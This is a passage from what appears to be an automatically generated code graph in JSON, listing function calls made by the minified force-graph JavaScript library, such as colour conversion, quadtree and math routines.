"source": "static/js/force-graph-1.43.5.min.js", "target": "hsl"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hsla"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHex"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHex8"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "gradient"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toRgbString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toPercentageRgbString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHexString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHexString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHex8String"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHex8String"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHslString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHsvString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toHexString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toName"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toRgbString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "setAlpha"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_applyModification"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_applyModification"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_applyModification"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_applyModification"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_applyModification"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_applyModification"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_applyModification"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_applyCombination"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_applyCombination"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_applyCombination"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_applyCombination"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_applyCombination"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "_applyCombination"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toRgbString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toRgbString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "fromRatio"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "random"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toRgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toRgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "ratiodef"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getLuminance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "getLuminance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "readability"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toUpperCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "readability"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isReadable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "mostReadable"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "indexOf"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "parseFloat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "parseInt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "round"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "exec"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "slice"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "test"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "concat"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toString"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "padStart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "toRgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "apply"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "defineProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "addAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "addAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "visit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "abs"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "visit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "addAll"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "visit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "visit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "find"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "from"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "visit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cover"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "remove"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "visit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "pow"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cbrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sqrt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "initialize"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "restart"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "stop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/force-graph-1.43.5.min.js", "target": "forEach"}, {"confidence": "EXTRACTED", 